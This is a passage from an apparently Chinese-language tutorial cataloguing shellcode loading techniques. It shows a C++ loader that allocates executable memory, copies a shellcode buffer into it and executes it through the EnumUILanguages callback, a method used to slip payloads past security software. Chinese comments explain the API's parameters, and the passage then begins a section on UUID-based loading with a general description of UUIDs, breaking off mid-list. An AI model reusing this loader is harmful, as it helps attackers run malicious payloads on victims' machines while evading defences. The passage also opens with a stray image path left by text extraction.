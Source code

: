 ```cpp
int main() {
    CallBack();
}
```



## EnumUILanguages

```cpp
#include <Windows.h>

unsigned char shellcode[] ="";

void CallBack() {

    void* p = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(p, shellcode, sizeof(shellcode));
	
    /*
    EnumUILanguages 函数是在 Windows 操作系统中使用的一个函数，它用于列举安装在系统上的用户界面语言（UI language）
    参数1:指向回调函数的指针,这个回调函数将在每个列举到的用户界面语言上被调用
    参数2:指定列举语言时的选项和标志
    参数3:应用程序定义的一个参数，它将传递给回调函数
    */
    
    EnumUILanguages((UILANGUAGE_ENUMPROC)p, 0, 0);

}

int main() {
    CallBack();
}
```





# 8.基于uuid

## 什么是UUID

UUID（Universally Unique Identifier，通用唯一识别码）是一种为计算机系统中的所有对象分配一个唯一标识符的软件构建块。UUID 是 128 位的数字，通常由 32 个十六进制(16个字节)数字表示，并由连字符分隔成五个部分，形式为 8-4-4-4-12。例如：

```
550e8400-e29b-41d4-a716-446655440000
```

UUID 的目的是在没有中央协调机构的情况下，能够在分布式系统中生成唯一标识符。这意味着，任何人在任何地方都可以创建一个 UUID，而无需担心与其他人创建的 UUID 冲突。UUID 的设计使得它们的全局唯一性非常高，即使在不同的计算机系统和网络中也能保持唯一性。

UUID 通常用于以下场景：
